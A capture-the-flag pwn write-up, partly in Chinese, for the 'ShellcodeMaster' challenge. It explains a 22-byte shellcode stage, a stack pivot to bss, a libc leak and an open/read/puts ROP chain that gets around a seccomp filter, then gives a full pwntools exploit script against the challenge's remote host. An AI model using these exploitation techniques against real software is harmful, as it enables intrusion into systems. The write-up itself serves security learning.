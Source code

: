 # ShellcodeMaster 

*You must be a shellcode master*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="../assets/shc2rules.png" height="50%" width="50%">

## 解题思路

只给了22字节，并且禁了execve和execveat，且我们对mmap的内存只有执行权限，不能写不能读，
因此拿shell、orw、read shellcode回内存、执行32位execve都不现实，但是程序**没有开PIE**！
那么我们可以将内容读到bss上，然后栈迁移过去

这里我实现了我的第一种思路：先把putsPlt、putsGot写上，leak libc，然后跳回到`0x2333000`，
再次读入，这样就有了gadgets和函数地址，接着在bss上读orw，最后栈迁移过去就能打印出flag  
其中虽然题目没有给libc，但是借助LibcSearcher，我们可以借泄露出来的libc地址判断libc版本，
这样就可以找到libc了

还有两种思路，我没有实现，但应该是打的通的

思路2：由于shellcode所在的地址是已知的，且22字节对于read到bss上这一需求是过多的，
所以我们还可以在shellcode里加上`pop rdi`等gadget，这样就避免了原来没有gadget所致的难题，
最后只要一口气栈迁移到bss上leak，打orw即可，可以减少一次跳回shellcode

思路3：由于二进制程序是`Partial RELRO`的，那么在shellcode里搓好gadget之后还可以栈迁移到bss上，
打ret2dlresolve，这样甚至连libc都不需要leak，直接一步到位，orw打印flag

## EXPLOIT

```python
from pwn import *
import LibcSearcher
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode2')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *0x4013f6')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('106.14.57.14', 31751)
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF('./shellcode2')
    bssHigh = 0x404800
    mmap = 0x2333000
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']
    readPlt = elf.plt['read']

    # payload 1, read on bss and stack pivot to bss
    sh.recvuntil(b'0x16')
    code = f'''
    mov esp,{hex(bssHigh)}
    xor eax,eax
    xor edi,edi
    push rsp
    pop rsi
    push r14
    pop rdx
    syscall
    mov edi,{hex(putsGot)}
    ret
    '''
    sh.send(asm(code))

    # payload 2, leak libc
    sh.recvuntil(b'Love!\n')
    sh.sendline(p64(putsPlt) + p64(mmap))

    putsAddr = u64(sh.recv(6) + b'\0\0')
    # libc = LibcSearcher.LibcSearcher('puts', putsAddr & 0xfff)
    # libc.dump('system') # [+] ubuntu-glibc (id libc6_2.35-0ubuntu3.6_amd64) be choosed.
    libcBase = putsAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    gadgets = ROP(libc)
    popRdi = libcBase + gadgets.rdi.address
    popRsi = libcBase + gadgets.rsi.address
    popRdxRbx = libcBase + gadgets.rdx.address
    sleep(0.5)

    # payload 3, run shellcode again, put orw on bss, and stack pivot again
    offset = 16 * 8 # 16x addr to pop/jmp
    sh.sendline(p64(popRdi) + p64(bssHigh + offset) + p64(popRsi) + p64(0) + p64(openAddr) +
                p64(popRdi) + p64(3) + p64(popRsi) + p64(bssHigh + offset + 8) +
                p64(popRdxRbx) + p64(0x50) + p64(0) + p64(readPlt) +
                p64(popRdi) + p64(bssHigh + offset + 8) + p64(putsPlt) + b'./flag\0')

    sh.interactive()
```
